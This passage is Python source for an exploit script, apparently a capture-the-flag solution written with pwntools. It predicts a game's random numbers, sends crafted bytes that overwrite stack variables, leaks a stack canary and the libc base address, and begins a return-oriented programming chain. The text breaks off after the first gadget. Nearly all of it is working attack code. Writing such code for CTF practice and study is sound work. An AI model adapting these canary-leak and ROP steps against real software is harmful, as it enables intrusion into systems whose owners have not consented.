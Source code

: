 ```python

assert len(lucky_str) == 8
lucky_byte1 = str(int(lucky_str[6:8:], 16))
lucky_byte2 = str(int(lucky_str[4:6:], 16))
lucky_byte3 = str(int(lucky_str[2:4:], 16))
lucky_byte4 = str(int(lucky_str[0:2:], 16))

log.success("sending luck_number: "+str(lucky_number))
log.success(hex(seed)+" + "+hex(lucky_number)+" = "+hex(lucky_number+seed))
r.send(str(lucky_number)+"\n")

# 0~15 to pass the first 16 numbers
for i in range(16):
    print r.recvuntil(": ")
    log.success("sending: "+str(guess[i]))
    r.send(str(guess[i])+"\n")

payloads = ["44",#17 byte, v8
            "0",#padding
            "0",#padding
            "0",#padding
            lucky_byte1,   # lucky number
            lucky_byte2,   # lucky number
            lucky_byte3,   # lucky number
            lucky_byte4,   # lucky number
           "1", # v10 for win
            "0",#padding
            "0",#padding
            "0",#padding
           "17", # i
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_1
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_2
            "0",#padding
            "0",#padding
            "0",#padding
            "8", #name_buf 0x08
            "49", #name_buf 0x31
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           ]

payloads[0] = str(len(payloads) + 16)
# sending payload
for payload in payloads:
    print r.recvuntil(": ")
    log.success("sending: "+payload)
    r.send(payload+"\n")

s = r.recvuntil("BBBB")
canary = s.split(".")[0]
canary = "0x" + canary[canary.index("0x")+2::].rjust(16, "0")
libc_base = int(s.split(".")[1], 16) - 0xfd - 0x1edb0
log.success("canary: "+canary)
log.success("libc_base: "+hex(libc_base))

libc.address += libc_base
pop_rdi_ret = libc_base + 0x2024b # pop rdi, ret
```
